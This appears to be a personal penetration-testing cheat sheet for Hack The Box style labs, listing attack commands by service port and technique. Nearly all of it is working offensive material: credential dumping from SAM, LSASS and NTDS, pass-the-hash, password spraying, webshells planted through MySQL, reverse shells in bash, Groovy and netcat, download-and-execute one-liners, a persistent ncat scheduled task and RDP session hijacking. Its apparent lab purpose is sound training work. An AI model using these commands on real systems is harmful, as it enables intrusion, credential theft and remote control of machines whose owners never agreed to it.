

-- 20240821 MIGRATED TO REDTEAM
-- 20240515 THIS IS ORIGINAL!

# vars
- `export ip=10.10.23.3 && echo $ip`
- `export hn=target.htb && echo $hn`
- `export dn=target.htb && echo $dn`

# linux cmds
- kill all openvpn connections `sudo killall openvpn`
- unzip file 
    - `unzip filename.zip`
    - `gzip filename.gz`
- find 
    - `find / -name "rockyou-30000.rule" 2>/dev/null `
    - `find /mnt/Finance/ -name *cred*`
    - `grep -rn /mnt/Finance/ -ie cred`
- vpn - go ipv4 -> routes -> `use this connection only for resources on its network`
- network
    - listening ports `netstat -tulp`
        - `localhost:postgresql` localhost:<service> means service is running and only accessible locally, try tunneling `ssh`
        - `0.0.0.0:ssh` indicates externally accessible
- look for passwords
    - `cat * | grep -i passw*`cd 
- can I run sudo? (requires password)
    - `sudo -l`
- what groups am I in
    - `id`
- can I find binaries within a group
    - `find / -group $groupname 2>/dev/null`
    - what permissions do they have?
        - `ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker`
        - look for setuid (file is owned by root and we can execute it as root)
            - the application calls cat which we are going to modify the path variable to call our /tmp/cat instead
                - `echo "/bin/sh" >> /tmp/cat; chmod +x /tmp/cat; export PATH=/tmp:$PATH; echo $PATH`
- mount
    - `sudo mkdir /mnt/Finance && sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance`
    - `mount -t cifs //192.168.220.129/Finance /mnt/Finance -o credentials=/path/credentialfile.txt`
        - credentialfile.txt
        - `username=plaintext`
        - `password=Password123`
        - `domain=.`


# windows cmds
- privilege escalation
    - get sam hashes `impacket-secretsdump domain/$user:Password1@$ip`
        - search ip range `crackmapexec smb $ip/24 -u $username -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth`
    - catch hash via responder
        - victim authenticates to `\\[Responder IP]\\`
    - quick registry search for passwords `reg query HKLM /f password /t REG_SZ /s`
    - `whoami /priv`
        - `SeImpersonatePrivilege ENABLED` potato attacks `https://github.com/k4sth4/Juicy-Potato`
    - `whoami /groups` what groups am I in
    - `net user` find users
    - windows-exploit-suggester
        - 
- network
    - `ipconfig /all`
        - look for additional network cards
    - `route print`
        - any other boxes connected to this one
    - `netstat -ano`
        - any ports that are listening that we didnt find previously
- cmd history `doskey /history`
- tree `tree /F`
- files to check
    - `c:\windows\win.ini`
    - `c:\users\$username\.ssh\id_rsa`
- copy
    - `xcopy C:\Users\htb\Documents\example C:\Users\htb\Desktop\ /E`
    - `robocopy C:\Users\htb\Desktop C:\Users\htb\Documents\`
- files
    - map drive 
        - `net use n: \\192.168.220.129\Finance /user:plaintext Password123`
        - `New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"`
            - `$username = 'plaintext';$password = 'Password123';$secpassword = ConvertTo-SecureString $password -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword;New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred;`
    - count
        - `(Get-ChildItem -File -Recurse | Measure-Object).Count`
    - hidden files `dir /A:H`
    - file name search 
        - `dir n:\*cred* /s /b`
        - `Get-ChildItem -Recurse -Path N:\ -Include *cred* -File`
        - `Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List`
    - where `where /R c:\ flag.txt`
    - findstr `findstr /I adams c:\dev\*.*`
    - compare files 
        - `comp a.txt b.txt`
        - `fc.exe a.txt b.txt /N`
    - sort `sort.exe .\file-1.md /O .\sort-1.md`
    - unique `sort.exe .\sort-1.md /unique`
- env variables
    - setx to make perm
    - remove `setx variablename ""`
    - system `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`
    - user `HKEY_CURRENT_USER\Environment`
    - variables
        - `%PATH%` Specifies a set of directories(locations) where executable programs are located.
        - `%OS%` The current operating system on the user's workstation.
        - `%SYSTEMROOT%` windows system folder
        - `%LOGONSERVER%` login server (domain or workgroup)
        - `%USERPROFILE%` users home dir
        - `%ProgramFiles%` x64 program file location
        - `%ProgramFiles(x86)%` x32 program file location on x64 
- services
    - sc
        - list services `sc query type=service`
        - check for defender `sc query windefend`
        - stop/start `sc stop Spooler` /  `sc start Spooler`
        - disable
            - windows update service `sc config wuauserv start= disabled`
            - background intelligent transfer service bits `sc config bits start= disabled`
    - tasklist
        - list `tasklist /svc`
    - net start
        - list `net start`
    - password requirements
        - `net accounts`
    - scheduled tasks
        - list `SCHTASKS /Query /V /FO list`
        - create `schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`
        - change `schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"`
        - delete `schtasks /delete  /tn "My Secret Task" `
- powershell
    - execution policy 
        - `Get-ExecutionPolicy` 
        - `Set-ExecutionPolicy undefined`       `Set-ExecutionPolicy -scope Process` 
    - module
    - `import-module .\PowerSploit.ps1`
    - `find-module -Name AdminToolbox | install-module`
- using arp to find additional hosts
    - `arp /a`
- my privs
    - `whoami /all`
    - list all users on host `net user`
    - list all groups on host `net group`
    - shared resources 
        - `net share`
        - `net view`
- users
    - local
        - get local users `Get-LocalUser`
        - add user no password `New-LocalUser -Name "JLawrence" -NoPassword`
        - add user with password `$Password = Read-Host -AsSecureString; Set-LocalUser -Name "JLawrence" -Password $Password -Description "CEO EagleFang"`
    - AD
        - get users `Get-ADUser -Filter *`
        - get users filtered `Get-ADUser -Filter {EmailAddress -like '*greenhorn.corp'}`
        - add user `New-ADUser -Name "MTanaka" -Surname "Tanaka" -GivenName "Mori" -Office "Security" -OtherAttributes @{'title'="Sensei";'mail'="MTanaka@greenhorn.corp"} -Accountpassword (Read-Host -AsSecureString "AccountPassword") -Enabled $true `
        - update user `Set-ADUser -Identity MTanaka -Description " Sensei to Security Analyst's Rocky, Colt, and Tum-Tum"  `
- groups
    - `Get-LocalGroup`
    - add user to group `Add-LocalGroupMember -Group "Remote Desktop Users" -Member "JLawrence"`
    - ad requeires RSAT `Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online`
- non domain joined credentials
    - security account manager (SAM)
        - files
            - `hklm\sam` Contains the hashes associated with local account passwords. 
            - `hklm\system` Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
            - `hklm\security` Contains cached credentials for domain accounts. 
        - get
            - locally `reg.exe save hklm\sam C:\temp\sam.save && reg.exe save hklm\system c:\temp\system.save && reg.exe save hklm\security c:\temp\security.save`
            - remotely `crackmapexec smb $ip --local-auth -u bob -p HTB_@cademy_stdnt! --sam`
        - then run secretsdump against files
            - `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
            - add hashes to hashestocrack.txt `64f12cddaa88057e06a81b54e73b949b`
            - -m 1000 `./hashcat.exe -m 1000 c:\dev\share\bruteforcing\hashestocrack.txt C:\dev\share\bruteforcing\wordlists\rockyou.txt`
            - `./hashcat.exe hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 C:\dev\share\bruteforcing\wordlists\rockyou.txt`
    - local system authority (LSA) runs lsass.exe 
        - requires local admin permissions
        - remotely `crackmapexec smb $ip --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
        - taskmanager `Processes > Right click the Local Security Authority Process > Select Create dump file`
        - powershell (caught by defender) `$id = Get-Process lsass | select-object Id; rundll32 C:\windows\system32\comsvcs.dll, MiniDump $id C:\temp\lsass.dmp full`
        - [pypykatz](https://github.com/skelsec/pypykatz) python implementation of mimikatz
            - `pypykatz lsa minidump lsass.DMP`
                - `== MSV ==` get NT and SHA1 hashes for cracking
                - `== WDIGEST [14ab89]==` may contain passwords in plain text but patched in windows 8 up
- active directory
    - bruteforce `crackmapexec smb $ip -u users.lst -p /usr/share/wordlists/fasttrack.txt`
    - NT Directory Services (NTDS) `NTDS.dit` 
        - primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information
        - `%systemroot%/ntds`
        - requires local admin or domain admin `net user <accountname>`
        - process
            - crackmapexec `crackmapexec smb $ip -u bwilliamson -p P@55w0rd! --ntds`
            - get hashes and crack using hashcat 
            - or
            - shadow copy `vssadmin CREATE SHADOW /For=C:`
            - copy from shadow copy `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\temp\NTDS.dit`
            - copy via smb `cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData`
        - cant crack it, try Pass-the-Hash (PtH)
            - `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"`
- looting
    - [lazagne](https://github.com/AlessandroZ/LaZagne/releases/)
        - `start lazagne.exe all -vv`
    - powershell
        - `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

# recon
- scan
    - tcp `sudo nmap -sV -sC -oA scans/alltcp -p- $ip`
    - udp `sudo nmap -F -sU -oA scans/alludp -p- $ip` 
    - vuln `sudo nmap --script vuln -v -oA scans/vuln $ip`
    - quiet `sudo nmap -p50000 -sS -Pn -n --disable-arp-ping --packet-trace --source-port 53 $ip`
    - flags
        - blocking ping probes `-Pn`
- results
    - dns


# ports
- ## 21 ftp
    - `ftp ftp://anonymous@10.129.202.5`
    - `anonymous` as username, [enter] for password
    - `mget *.*` download all
    - brute forcing
        - medusa (slow)
            - `medusa -h $ip -U users.list -P passwords.list -M ftp -n 2121`
        - hydra
            - `hydra -L users.list -P passwords.list ftp://$ip:2121 -vv -I`
- ## 22 ssh
    - if you have an id_rsa file
        - `chmod 400 id_rsa; ssh -i id_rsa daniel@$ip`
    - brute force `hydra -L user.list -P password.list ssh://$ip`
        - this is very slow - recommend to target ftp instead `hydra -l sam -P mut_password.list ftp://$ip -t 64`
    - 
- ## 25,143,110,465,587,993,995 smtp
    - enumeration
        - host 
            - `host -t MX $domainname`
            - get ip address `host -t A mail1.$domainname.`
        - dig `dig mx $domainname | grep "MX" | grep -v ";"`
        - nmap `sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 $ip`
    - connect
        - `telnet $ip 25`
            - search for valid accounts
                - `VRFY $username`
                - `EXPN $username` shows users in distribution lists
                - `RCPT TO:julio` will confirm if a username exists
        - pop3 `telnet $ip 110`
            - `USER julio` confirm user exists
            - authenticate
                - `user validuser@domain.htb`
                - `pass Password123!`
            - actions
                - `list` emails
                - `retr 2`  read email
                - `dele 1`  delete email
                - `quit`    exit        
        - [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
            - `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t $ip`
                - `-M ` VRFY, EXPN, or RCPT always try them all
        - 0365
            - [o365spray](https://github.com/0xZDH/o365spray)
                - verify target uses 365 `python3 o365spray.py --validate --domain $domainname`
                - verify usernames `python3 o365spray.py --enum -U users.txt --domain $domain`
                - password spray `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain $domain`
            - [mailsniper](https://github.com/dafthack/MailSniper)
        - gmail/okta
            - [credking](https://github.com/ustayready/CredKing)
        - brute force
            - hydra 
                - `hydra -L users.txt -p 'Company01!' -f $ip pop3`        smtp|pop3   
                - `hydra -l marlin@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt -f $ip smtp -t 32 -v` remember to add full email, not just username
        - phishing
            - open relay `nmap -p25 -Pn --script smtp-open-relay $ip`
                - `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Please complete the following survey. http://mycustomphishinglink.com/' --server $ip`
            - 
- ## 53 udp/tcp dns
    - enumeration
        - `nmap -p53 -Pn -sV -sC $ip`
    - dig
        - `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb`
    - [fierce](https://github.com/mschwager/fierce)
        - install `python -m pip install fierce`
    - hostname
        - `sudo echo "$ip $hn" >> /etc/hosts` !! check
    - domains
        - `gobuster dns -d $dn -w /usr/share/wordlists/seclists/Discovery/DNS/dns-Jhaddix.txt -o scans/domains.gobuster`
    - subdomains
        - fuff
            - `ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u -o scans/subdomains.ffuf http://FUZZ.$hostname/`
        - [subfinder](https://github.com/projectdiscovery/subfinder)
            - `/subfinder -d inlanefreight.com -v`
        - [subbrute](https://github.com/TheRook/subbrute.git)
            - install `git clone https://github.com/TheRook/subbrute.git >> /dev/null 2>&1`
            - set resolvers `echo "ns1.inlanefreight.com" > ./resolvers.txt`
            - exec `./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt`
            - `python3 subbrute.py inlanefreight.htb -s /usr/share/seclists/Discovery/DNS/namelist.txt -r resolvers.txt`
            - `dig axfr hr.inlanefreight.htb @inlanefreight.htb | grep "TXT"`
        - [can-i-take-over-xyz](https://github.com/EdOverflow/can-i-take-over-xyz)
    - dns spoofing aka DNS Cache Poisoning
        - [ettercap](https://www.ettercap-project.org/)
            - modify `cat /etc/ettercap/etter.dns` to add in target domain and ip address
                - `inlanefreight.com      A   192.168.225.110`
                - `*.inlanefreight.com    A   192.168.225.110`
            - start ettercap and scan for live hosts `Hosts > Scan for Hosts`
            - Once completed, add the target IP address (e.g., 192.168.152.129) to Target1 and add a default gateway IP (e.g., 192.168.152.2) to Target2
            - active dns_spoof `Plugins > Manage Plugins`
            - if successful user is sent to controlled page
        - [bettercap](https://www.bettercap.org/)
- ## 80,443 http/s
    - ### scan
        - fuzz virtual hosts (add virtual hosts to your /etc/hosts file)
            - `ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://$hn:$port/ -H 'Host: FUZZ.$hn' -t 100 -o scans/vhosts.ffuf`
            - `gobuster vhost -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb -t 100 --append-domain`
        - fuzz directories 
            - `ffuf -w /usr/share/seclists/Discovery/Web-Content/combined_directories.txt -u http://$ip:$port/FUZZ -recursion -t 100 -o scans/dir.ffuf`
            - `gobuster dir -u http://$ip -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -k -t 30 -b 302 -o scans/dir.gobuster`
                - `--exclude-length 100`
            - `feroxbuster --url "http://$ip" --wordlist /usr/share/SecLists/Discovery/Web-Content/raft-medium-words.txt --threads 100 -o scans/ferox-medium`
        - fuzz extensions `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://$hn:$port/indexFUZZ -H 'Host:$hn' -t 100 -o scans/fileext.ffuf`
        - fuzz pages 
            - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt -u http://$ip:PORT/blog/FUZZ.php -t 100 -o scans/pages.ffuf`
                - get `ffuf -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://$hn:$port/admin/admin.php?FUZZ=key -t 100 -o scans/get.ffuf`
                - post `ffuf -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://$hn:$port/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -t 100 -o scans/post.ffuf`
            - `feroxbuster --url "http://10.10.10.245" --wordlist /usr/share/SecLists/Discovery/Web-Content/raft-medium-words.txt --threads 100 -o scans/ferox-medium -x php`
    - brute force
        - try default passwords 
            - `admin:admin` `root:root` `admin:password`, `admin:admin1`
        - basic auth `hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip -s PORT http-get /`
        - known password `hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p amormio -u -f $ip -s PORT http-get /`
        - usernames and rockyou `hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f $ip -s PORT http-get /`
        - webform `sudo hydra -P /usr/share/wordlists/rockyou.txt -l admin -f $ip -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`


    - ### vulnerablities
        - local file inclusion `https://example-site.com/?module=contact.php`
            - `https://example-site.com/?module=../../../etc/passwd`
        - remote file inclusion `https://example-site.com/?module=contact.php`
            - `https://example-site.com/?module=https://victim.com/?module=http://evilsite.com/reverseshell.php`
            - responder
                - setup responder `sudo responder -I tun0 -w -d`
                - url request `http://unika.htb/index.php?page=//10.10.14.7/myfakeshare`
                - responder returns ntlm hash, cracked using hashcat mode 5600
        - log poisoning

    - if the page repeats your input back to you 
        - [server side template injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) 

    - ### services
        - #### jenkins
            - [Dashboard] - [Manage Jenkins] - [Script Console]
                - `println "ls -la".execute().text`
        - #### s3 bucket
            - default returns this `{"status": "running"}`
            - `apt install awscli`
            - `aws configure` setting `temp` as the value
            - list all buckets  `aws --endpoint=http://s3.thetoppers.htb s3 ls`
            - list all files    `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`
            - upload file `aws --endpoint=http://s3.thetoppers.htb s3 cp webshell.php s3://thetoppers.htb/images/`
- ## 139,445 smb
    - enumerate `sudo nmap $ip -sV -sC -p139,445`
    - smbmap
        - `smbmap -H $ip`
        - recursive list all files `smbmap -H $ip -u anonymous -R`
    - smbclient
        - null session (no username/password) `smbclient -N -L //$ip`
        - list `smbclient -L //$ip/$sharename`
            - no authentication `smbclient -N -L //$ip/$sharename`
        - authenticated (try blank password)
            - `smbclient -U administrator //$ip/ADMIN$`
        - connection username%password `smbclient //$ip/GGJ -U "jason%34c8zuNBo91\!@28Bszh"`
        - download `smbmap -H $ip --download "notes\note.txt"`
        - upload `smbmap -H $ip --upload test.txt "notes\test.txt"`
    - enum4linux
        - `./enum4linux-ng.py $ip -A -C`
    - crackmapexec
        - get list of users `crackmapexec smb cicada.htb -u "guest" -p '' --rid-brute`
        - `crackmapexec smb $ip -u "user" -p "password" --shares`
        - password spray `crackmapexec smb $ip -u /tmp/userlist.txt -p 'Company01!' --local-auth --continue-on-success`
        - execute command `crackmapexec smb $ip -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`
        - network scan logged on users `crackmapexec smb $ip/24 -u administrator -p 'Password123!' --loggedon-users`
        - get sam `crackmapexec smb $ip -u administrator -p 'Password123!' --sam`
        - pass the hash `crackmapexec smb $ip -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`
    - responder
        - `sudo responder -I tun0`
            - `Responder IP               [10.10.14.198]`
            - wait for events
            - crack `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`
            - or `sudo impacket-smbserver share ./ -smb2support`
        - victim 
            - modify hosts file for friendly name `C:\Windows\System32\Drivers\etc\hosts`
                - `mysharefoder     10.10.14.198`
                - `\\mysharefoder\stuff`    
        - if unable to crack password 
            - impacket-ntlmrelayx
                - set `"SMB = OFF"` in `/etc/responder/Responder.conf`
                - `impacket-ntlmrelayx --no-http-server -smb2support -t $ip`
                - create powershell reverse shell from revshells.com and base64 encode
                - `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e $revshellb64encoded'`
    - [rpcclient](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
        - `rpcclient -U'%' 10.10.110.17`
        - list users once connected `enumdomusers`
    - impacket-psexec
        - `impacket-psexec administrator:'Password123!'@$ip`
    
    - execute commands by prefixing with ! `!cat file.txt`
    - brute force 
        - `hydra -L user.list -P password.list smb://$ip`
        - metasploit SMBv3 `use auxiliary/scanner/smb/smb_login`
        - `crackmapexec smb $ip -u jason -p pws.list --local-auth --continue-on-success`
- ## 873 rsync
    - list directories `rsync --list-only $ip::`
    - list files in public dir `rsync --list-only $ip::public`
    - get file `rsync $ip::public/flag.txt flag.txt`
- ## 1433,2433(hidden) sqlserver
    - enumeration 
        - `nmap -Pn -sV -sC -p1433 $ip`
    - impacket `python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py <username>@$ip -windows-auth`
        - `enable_xp_cmdshell`
            - `xp_cmdshell whoami`
    - sqsh
        - `sqsh -S 10.129.20.13 -U username -P Password123`
        - `-h` disable headers for cleaner look
        - local account `sqsh -S $ip -U .\\MSSQLSVC -P princess1`
    - sqlcmd
        - win `sqlcmd -S 10.129.20.13 -U username -P Password123`
        - `-y 30 -Y 30` shows better output but may impact performance
    - cmdss
        - may require `GO` to execute
        - list databases `SELECT name, database_id, create_date FROM sys.databases;`
        - list tables `SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES`
        - read local files `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`
        - impersonate
            - find users`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
            - `EXECUTE AS LOGIN = 'sa'`
        - linked servers `SELECT srvname, isremote FROM sysservers`
            - `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`
    - xp_cmdshell
        - `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.10:8080/nc.exe -outfile nc.exe"`
        - `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.10 443"` 
    - capture hashes
        - setup responder
        - `EXEC master..xp_dirtree '\\10.10.110.17\share\'`
        - `EXEC master..xp_subdirs '\\10.10.110.17\share\'`
- ## 3306 mysql
    - enumeration 
        - `nmap -Pn -sV -sC -p3306 $ip`
    - connect 
        - `mysql -h $ip -u root -p` by default no password set for user root in mysql
        - `mysql -u username -pPassword123 -h 10.129.20.13`
    - windows `mysql.exe -u username -pPassword123 -h 10.129.20.13`
    - with password (password is appended to the -p flag password = 'admin')`mysql -u superdba -padmin`
    - cmds
        - list databases    `show databases;`  
        - list tables       `show tables;`  
        - use db            `use database;` 
        - write local file 
            - `SELECT "<?php echo shell_exec($_GET['c']);?>...." INTO OUTFILE '/var/www/html/webshell.php';`
            - `SELECT "<?php echo shell_exec($_GET['c']);?>...." INTO OUTFILE 'c:\\xampp\\htdocs\webshell.php';`
            - requires empty `show variables like "secure_file_priv";`
        - read local file `select LOAD_FILE("/etc/passwd");`
    - [A UDF library with functions to interact with the operating system through mysql](https://github.com/mysqludf/lib_mysqludf_sys) very low success rate
- ## 3389 rdp
    - enumeration
        - `nmap -Pn -p3389 192.168.2.143 `
    - desktop `xfreerdp /v:$ip /u:Administrator`
    - connect `evil-winrm -u $username -i $ip`
    - brute force `hydra -L user.list -P password.list rdp://$ip`
    - password spray
        - [crowbar](https://github.com/galkan/crowbar)
            - `sudo apt install -y crowbar`
            - `crowbar -b rdp -s $ip/32 -U users.txt -c 'password123'`
        - hydra
            - `hydra -L usernames.txt -p 'password123' $ip rdp`
    - rdp session hijacking
        - requires system privs
        - show all current user sessions `query user`
        - `tscon.exe #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` 
        - if admin privs only, use `sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"`
            - then `net start sessionhijack`
    - rdp Pass-the-Hash
        - requires DisableRestrictedAdmin `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
        - connect with hash `xfreerdp /v:$ip /u:bob /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
        - 
- ## 5432 postgresql
    - connect `psql -U christine -h machine.htb -p 5432`
    - list databases `\list`
    - change db `\connect secrets`
    - list tables `\dt`
    - select `SELECT * FROM flag;`      CASE SENSITIVE
- ## 5985,5986 winrm
    - brute force `crackmapexec winrm $ip -p username.list -u password.list`
    - `evil-winrm -u Administrator -i $ip`
- ## 6379 redis
    - connect `redis-cli -h $ip -p 6379`
        - `redis-cli -h $ip -p 6379 -a password`
    - info `info`
    - list all keys `keys *`
    - select database `select 0`
    - get values `get "flag"`
- ## 27017 mongodb
    - `mongo $ip`
    - list all databases `show dbs`
    - show all users `show users`
    - use database `use dbname`
    - show collections `show collections`
    - get item `db.flag.find().pretty()`

# injection 
- sql
    - msql 
        - comment `#` or `--`
        - `admin' or 1=1 # - --`
- sqlmap
    - standard scan with authentication session id `sqlmap http://$ip/dashboard.php?search=1 --cookie='PHPSESSID=e4fiooi46kheu3ce7kntl9g50l' -p search`
    - get --os-shell `sqlmap http://$ip/dashboard.php?search=1 --cookie='PHPSESSID=e4fiooi46kheu3ce7kntl9g50l' -p search --os-shell`
        - get stable shell `bash -c "bash -i >& /dev/tcp/10.10.14.17/443 0>&1"`

# transfer
- ## kali to victim
    - kali `python3 -m http.server 8080`
        - victim `curl http://10.10.14.10:8080/linpeas.sh | sh`
        - victim `certutil.exe -split -f -urlcache http://$kali/payload.ps1`
        - victim `powershell -c 'IEX(New-Object Net.WebClient).downloadString("http://$kali/payload.ps1")'`


- ## victim to kali
    - kali `nc -nlvp 8000 > cap.linpeas`
        - victim `curl -F 'attachment=@cap.linpeas' http://10.10.14.14:8000`
    - kali `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/dbcyph0n/htb/share/`
        - victim `\\10.10.14\140\CompData`
    - kali `impacket-smbserver -username $username -d $password $sharename . /smb2support`
        - `net use \\$kail\$sharename /u:$username $password; cd \\$kali\$sharename`
        

# shells
- upgrade shell
    - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
    - [ctrl] + [z]
    - `stty raw -echo; fg`
    - 

- [pentest monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    - bash
        - `bash -i >& /dev/tcp/10.0.0.1/9001 0>&1`
    - groovy
        - via jenkins [Dashboard] - [Manage Jenkins] - [Script Console] 
```groovy
String host="{your_IP}";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());whi
le(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```


# payloads
- msfvenom
    - php
        - `echo '<?php system($_GET["cmd"]); ?>' > webshell.php`
    - linux
        - war `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`
        - php `msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php`

# password cracking
- use rules
    - `/usr/share/hashcat/rules/best64.rule`
    - `/usr/share/john/rules/best64.rule`
- username-anarchy 
    - `~/git/username-anarchy/username-anarchy John Marston > john.lst`
- john
    - `john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
    - `john --wordlist -rules C:\dev\share\bruteforcing\john\run\rules\best64.rule`
- hashcat 
    - detect hash type `hashid -m "mssqlsvc::WIN-02:6e1fb81beae990e6:C11<snip>"`
    - run on root host, magnitudes faster
    - `cd C:\dev\software\hashcat-6.2.6` 
    - ` .\hashcat.exe -a 0 -m 9500 C:\dev\software\bruteforcing\hashes.txt C:\dev\software\bruteforcing\realhuman_phill.txt --session=testsession --status`
        - `hashcat -m 1000 c:\dev\share\bruteforcing\hashestocrack.txt C:\dev\share\bruteforcing\wordlists\rockyou.txt`
        - ntlm hash -m 5600 (responder)
        - sam database dump -m 1000 (sam)
        - ` -r rules/best64.rule`
    - build a mutated list
        - `hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list`
- cewl
    - used to generate wordlists
    - `cewl -m5 --lowercase -w wordlist.txt http://192.168.10.10`


# check 
- windows
    - rdp
        - if unknown username try `xfreerdp /v:$ip /u:Administrator` and hope for blank password
    - search 
        - `c:\ProgramData` is hidden, can contain shared data across users
- linux
    - suids `find / -perm -u=s -type f 2>/dev/null`
    - guids `find / -perm -g=s -type f 2>/dev/null`
    - [linpeas](https://github.com/carlospolop/PEASS-ng)
        - Files with capabilities (limited to 50):
            - /usr/bin/python3.8 = **cap_setuid**,cap_net_bind_service+eip
                - cap_setuid `/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'` [link](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)

# tools
- netcat
    - `nc $ip 8443`

- tunneling
    - ssh
        - service only accessible from localhost
            - we create an ssh connection and in that connection we tunnel data from my port 1234 to the localhost:5432
            - `ssh -L 1234:localhost:5432 christine@$ip`
                - 1234 is the port on kali we connect to
                - localhost is the destination server we want to connect to once connected to $ip
                - 5432 is the port on the destination server we want to connect to once connected to $ip
                - example psql `psql -U christine -h localhost -p 1234` connects to kali port 1234 and tunnels through ssh to localhost:5432
- responder
    - `sudo responder -I tun0 -rdwv`
        - get "Responder IP", this is the ip we need to send to the victim

- evil-winrm
    - uses ports 5985,5986
    - `sudo apt install evil-winrm`
    - `evil-wrm -u $username -p $password -i $ip`
